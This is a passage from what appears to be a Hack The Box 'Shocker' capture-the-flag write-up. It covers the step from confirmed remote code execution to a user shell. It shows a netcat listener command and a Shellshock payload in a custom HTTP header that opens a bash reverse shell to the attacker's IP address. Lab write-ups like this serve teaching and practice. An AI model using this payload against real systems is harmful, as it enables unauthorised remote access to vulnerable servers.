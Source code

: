 Looks like our RCE worked, and we can reach our attacking machine. Time for a reverse shell.

### Reverse shell

Given that the commands are all Bash based, a good bash reverse shell is all we should need. Open a listener with `nc -lvnp 7500` to catch the shell. The custom header in this case will be `custom: () { :; };echo; /bin/bash -i >& /dev/tcp/10.10.14.4/7500 0>&1`

![](/assets/htb-shocker/burp_user_shell.png)

![](/assets/htb-shocker/user_shell.png)

Looks like we got a shell! Time to grab `user.txt`

![](/assets/htb-shocker/user_proof.png)

---